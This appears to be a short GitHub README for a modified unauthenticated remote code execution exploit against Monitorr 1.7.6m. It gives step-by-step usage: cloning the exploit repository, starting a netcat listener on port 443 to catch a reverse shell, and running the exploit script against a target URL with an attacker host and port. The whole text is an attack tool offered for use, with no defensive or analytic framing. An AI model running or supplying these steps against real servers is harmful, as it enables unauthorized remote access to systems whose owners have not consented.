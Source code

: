 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Installation
``git clone https://github.com/valentinodev/monitorr_1.7.6m_rce.git``

``cd monitorr_1.7.6m_rce``

### Netcat (another terminal)
``apt install rlwrap``

``rlwrap nc -lvnp 443``

### Exploit
``python 48980.py https://domain.com LHOST PORT``


## Credits to LYHIN'S LAB
